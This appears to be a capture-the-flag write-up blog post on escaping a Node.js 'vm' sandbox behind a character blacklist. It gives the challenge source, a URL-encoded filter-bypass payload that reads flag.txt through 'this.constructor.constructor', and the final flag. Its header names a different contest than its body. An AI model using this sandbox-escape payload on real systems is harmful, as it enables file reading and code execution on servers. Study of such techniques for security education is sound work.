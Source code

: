 ```yaml
---
layout: post
title:	"LIT CTF 2022"
date:	2022-05-06 08:20:21
categories:
    - blog
tags:
    - jsjail
    - misc
---
```



# Description
This is a challenge about _escape js vm_ in AnstromCTF 2022.

![image](https://user-images.githubusercontent.com/75429369/169534308-b7189ea9-8d48-49c4-b629-78564ee942f8.png)

# Solution

Read out the description and we'll know that we have to escape something _**jsjails**_, let's connect to the _**nc**_ !

![image](https://user-images.githubusercontent.com/75429369/169534898-d96539eb-e365-4290-82be-63e288d63ec5.png)

We can figure out that the program will wait the user to input a calculation and then it will give the result.
At this point, we've already known what we have to do is escape the js vm, after researching for solution, previous write up, .... I've made a payload and test it out:

![image](https://user-images.githubusercontent.com/75429369/169539477-568f9572-9e53-4860-9007-e9f633f06ded.png)

Hmmm, it's not like the first test when we only gave it a calculation, maybe the program has blocked some characters. Let's read the source:

```js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

Like I said, it has blacklist filtered some characters such as: dot, brackets, backslash, underscore, greater,...

Looks like it has filtered all the special characters but no, the percent "%" hasn't. So we can easily bypass this regex by using urlencode, remember to put the payload into _**decodeURIComponent**_ and wrap it into _**eval**_ to evaluate:

```js
eval(decodeURIComponent(this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()))
```

![image](https://user-images.githubusercontent.com/75429369/169539910-cbec5b74-8ac9-4d92-ab8d-4e5da2211feb.png)

I've thought this is it but it didn't... Maybe something wrong with the string that made the command didn't work.

I was in the deadlock for like 4-5 hours until I read the source again and realised that the forward slash "/" hasn't filtered. We can use it as a regex to convert it into a string, just add "/" at the start and the end of the payload:

```js
eval(decodeURIComponent(/this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()/))
```
![image](https://user-images.githubusercontent.com/75429369/169540893-a87ab025-ee63-424b-9dd2-81ee1460c895.png)

WHAT, it didn't work but at least we have a little sparkle. It done parsed the regex into string, but it didn't evaluate because it wasn't a valid expression. 

Now let me do a trick, I just add another forward slashes at the first and the end of the payload again to comment it out, then use a line break to seperate the command, so we'll have our payload worked like a charm:

```js
eval(decodeURIComponent(/%2F%0Athis%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()%2F/))
```

It'll become this:

```js
eval(// commented so not evaled
this.constructor.constructor("return this.process.mainModule.require('fs').readFileSync('flag.txt')")() //) commented so not evaled
```
![image](https://user-images.githubusercontent.com/75429369/169543579-e158e4a9-7f6c-42aa-8244-71ba0e584980.png)

Take the buffer and decode by hex and we'll get the flag yay

```
actf{omg_js_is_like_so_quirky_haha}
```
Nice challenge after all.

Thank you for reading !!!

_The End_

